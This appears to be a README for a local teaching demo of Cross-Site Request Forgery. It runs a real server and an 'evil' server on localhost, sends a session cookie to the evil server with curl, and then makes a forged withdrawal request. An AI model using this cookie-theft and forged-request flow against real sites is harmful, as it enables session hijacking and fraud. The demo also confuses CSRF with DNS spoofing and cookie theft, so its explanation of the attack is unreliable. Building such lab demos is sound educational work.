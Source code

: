 # Cross-Site Request Forgery (CSRF) attack demo

Cross-Site Request Forgery (CSRF) attack demo.

Start the real server:

```sh
cd server
npm install
node app.js
```

Open a separate terminal session and start the malicious server:

```sh
cd evilserver
npm install
node evil-server.js
```

```sh
curl --cookie "SESSION_COOKIE=TestCookie123" localhost:3666/cookies
```

Login to the real server: 

```
http://localhost:3000/login
```

This will generate a login token called `SESSION_TOKEN`.

Now, an attacker that is able to spoof the DNS could make the user navigate to a fake website and extract sensitive data. Example:

```
http://localhost:3666/cookies
```

After extracting the cookie, the attacker could then use the session identification to invoke the real server pretending to be the real user:

```
http://localhost:3000/withdraw=10000
```
